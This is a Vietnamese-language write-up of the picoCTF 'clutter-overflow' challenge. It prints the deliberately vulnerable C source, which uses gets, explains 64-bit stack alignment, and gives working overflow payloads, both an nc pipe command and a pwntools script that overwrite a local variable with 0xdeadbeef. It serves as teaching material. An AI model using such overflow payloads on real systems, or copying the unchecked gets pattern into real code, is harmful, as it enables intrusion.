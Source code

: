 # clutter-overflow

- **Phân loại:** Pwnable
- **Độ khó:** Easy
- Tool: GDB-peda
- Kiến thức: stack, thanh ghi, stack alignment

## 1. Phân tích bài

1. Source

```cpp
#include <stdio.h>
#include <stdlib.h>

#define SIZE 0x100
#define GOAL 0xdeadbeef

const char* HEADER = 
" ______________________________________________________________________\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \\^ ^ |\n"
"|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \\ ^ _ ^ / |                | \\^ ^|\n"
"| ^/_\\^ ^ ^ /_________\\^ ^ ^ /_\\ | //  | /_\\ ^| |   ____  ____   | | ^ |\n"
"|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|\n"
"| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |\n"
"|^ ^ ^ ^ ^| /     (   \\ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \\|^ ^|\n"
".-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |\n"
"|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\\ |^ ^|\n"
"| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |\n"
"|'.____'_^||/!\\@@@@@/!\\|| _'______________.'|==                    =====\n"
"|\\|______|===============|________________|/|\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\" ||\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"  \n"
"\"\"''\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"";

int main(void)
{
  long code = 0;
  char clutter[SIZE];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);
 	
  puts(HEADER); 
  puts("My room is so cluttered...");
  puts("What do you see?");

  gets(clutter);

  if (code == GOAL) {
    printf("code == 0x%llx: how did that happen??\n", GOAL);
    puts("take a flag for your troubles");
    system("cat flag.txt");
  } else {
    printf("code == 0x%llx\n", code);
    printf("code != 0x%llx :(\n", GOAL);
  }

  return 0;
}

```

b) Nhận xét

- Chúng ta có thể dễ dàng thấy lỗi nằm ở hàm gets, hàm này không kiểm tra số lượng ký tự nhập vào dẫn đến lỗi tràn bộ đệm

## 2. Ý tưởng khai thác

- Khi code có giá trị bằng GOAL (tức là 0xdeadbeef) thì flag sẽ được in ra
- Mỗi khi chương trình chạy thì hệ điều hành sẽ cung cấp cho chương trình một vùng nhớ trên RAM dùng để lưu trữ các biến nội bộ, các giá trị trở về (giá trị của RIP), giá trị các thanh ghi,… gọi là vùng nhớ stack. Ở bài này, mô hình stack  trông như sau:

![image.png](image8.png)

- Stack ghi từ địa chỉ thấp lên địa chỉ cao (ở đây là từ dưới lên trên) nên ta sẽ ghi 256 ký tự để ghi đè biến clutter, gọi là padding. Sau đó ta cần ghi đè giá trị của biến code thành 0xdeadbeef
- Nhưng vì đây là chương trình 64 bits nên sẽ có sự căn chỉnh stack (stack alignment System V ABI): stack phải được căn chỉnh 16-byte trước khi gọi một hàm khác, tức là giá trị của con trỏ ngăn xếp RSP (stack pointer) phải chia hết cho 16. Ở đây hàm win có hai biến số là clutter chiếm 256 byte và code chiếm 8 byte. Tổng cộng là 264 byte. Nhưng vì 264 không chia hết cho 16 nên thay vì chiếm 264 byte thì hai biến này chiếm 272 byte (0x110 trong hex):

![image.png](image%201.png)

- Vậy vấn đề là clutter chiếm bao nhiêu byte và code chiếm bao nhiêu byte? Vấn đề này sẽ tùy thuộc vào compiler. Có nhiều cách để align stack, compiler nghĩ cách nào tốt thì sẽ chọn cái đó

Ví dụ compiler có thể align như thế này

```
rbp
code
clutter
pad
```

Hoặc thế này (re-ordering variables tại vì nó thích các biến hay access ở gần rbp nhất có thể)

```
rbp
pad
code
clutter
```

Hoặc nếu ta không sử dụng biến code thì một số compiler có thể không alloc biến đó luôn.

Và thậm chí compiler có quyền không thực hiện stack alignment, bù lại performance sẽ bị tệ.

~ ~ Fun note: stack frame cũng chỉ là 1 quy ước để dễ hơn trong việc phân vùng hàm (dọn dẹp dễ hơn, dễ debug hơn). Compiler thích thì nó có quyền bỏ luôn stack frame hoặc tự nghĩ ra 1 cái khác để phân vùng =)))

- Vậy cách tốt nhất là dùng tool để tìm padding

## 3. Tiến hành khai thác

1. Bước 1: Tìm padding bằng công cụ 
- Đầu tiên ta dùng [zerosum0x0: Overflow Exploit Pattern Generator - Online Tool](https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html) để genarate ra 300 ký tự:

![image.png](image%202.png)

![image.png](image%203.png)

- Ta thu được biến code có giá trị 0x6a41396941386941. Dùng CyberChef để dịch ngược sang ký tự ta được ký tự Ai8Ai9Aj:

![image.png](image%204.png)

- Vậy offset (khoảng cách) ở đây là 264:

![image.png](image%205.png)

b) Bước 2: Viết payload

- Payload sẽ gồm 264 padding và giá trị 0xdeadbeef. Trong little-edian thì 0xdeadbeef được viết là \xef\xbe\xad\xde

c) Bước 3: Viết payload

- Cách 1: truyền bằng pipe:
    + Payload:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7\xef\xbe\xad\xde
    + Câu lệnh truyền payload bằng pipe:

```cpp
(echo -ne "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7\xef\xbe\xad\xde"; cat) | nc mars.picoctf.net 31890
```

![image.png](image%206.png)

- Cách 2: dùng file thực thi
   + Ta tạo file python thực thi:

```cpp
from pwn import *

p=remote('mars.picoctf.net', 31890)
payload = b'a'*264 + p64(0xdeadbeef)

p.sendline(payload)
p.interactive()
```

![image.png](image%207.png)

## 4. Kết luận

- Hiểu về cơ chế căn chỉnh stack trên hệ thống 64 bits. Những bài nâng cao sau này sẽ cần dùng kiến thức căn chỉnh stack nhiều hơn
